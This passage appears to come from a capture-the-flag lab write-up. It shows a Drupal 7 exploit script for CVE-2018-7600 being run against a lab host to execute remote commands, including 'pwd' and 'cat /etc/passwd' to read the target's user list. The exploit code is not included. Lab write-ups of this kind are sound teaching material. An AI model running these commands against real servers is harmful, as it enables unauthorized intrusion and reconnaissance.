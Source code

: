 ![](./IMG/6.png)
2. Check current directory
```
python drupa7-CVE-2018-7600.py -c 'pwd' http://10.129.48.89
```
> Currently, I located in /var/www/html

![](./IMG/7.png)
3. Check other user
```
python drupa7-CVE-2018-7600.py -c 'cat /etc/passwd' http://10.129.48.89
```
